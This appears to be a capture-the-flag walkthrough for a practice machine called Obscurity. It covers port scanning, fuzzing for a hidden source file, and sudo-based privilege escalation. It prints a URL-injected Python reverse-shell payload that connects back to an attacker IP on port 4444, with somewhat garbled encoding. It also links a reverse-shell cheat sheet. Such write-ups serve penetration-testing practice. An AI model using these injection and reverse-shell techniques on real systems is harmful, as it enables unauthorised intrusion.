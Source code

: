 # Obscurity walkthrough

Machine ip: 10.10.10.168

Nmap output:

```
root@kali# nmap -p- --min-rate 10000  10.10.10.168
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-30 14:05 EST
Nmap scan report for 10.10.10.168
Host is up (0.035s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   closed http
8080/tcp open   http-proxy
9000/tcp closed cslistener

```

## User

At port 8080 there is a website in which we can get some information about the webserver under the hood.

Given I know the name of the file I’m looking for, that it’s in a “secret development directory”, and I can’t count on standard tools to identify the directory name, I’ll use wfuzz, targeting the url http://10.10.10.168:8080/FUZZ/SuperSecureServer.py.

Having found the directory, I can get the server source from that url, http://10.10.10.168:8080/develop/SuperSecureServer.py.

In a quick scan over the code, you can see an exec badly handled(with a comment that also highlights it)

On this page you can find a cheat sheet with all the ways to get reverse shell:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We make this request in the browser setting up our ip:
```
http://10.10.10.168:8080/index.html';import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,soc
ket.SOCK_STREAM);s.connect((%22OURIP%22, 4444)); os.dup2 (s.fileno (), 0);% 20os.dup2 (s.fileno
(), 1);% 20os.dup2 (s.fileno (), 2); p = subprocess.call ([22% / bin / sh% 22% 22% 22-i]); x = 'x
```

After that, on the terminal listening with nc i got a shell as www-data.

In the home folder there are a couple of files that help us finding the decrypting key for gettin passwordreminer cleat again and after thet we can get a shell as robert and
take the user flag

## Root

ow as robert I can access the BetterSSH directory to find BetterSSH.py. this file can be executed by robert as root acording to sudo -l
output:
```
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Analyzing the script makes me understand that i need to create the /tmp/SSH folder and then i can run the script as sudo, authenticate myself as Robert and get
a root homemade shell. After that we can get the root flag
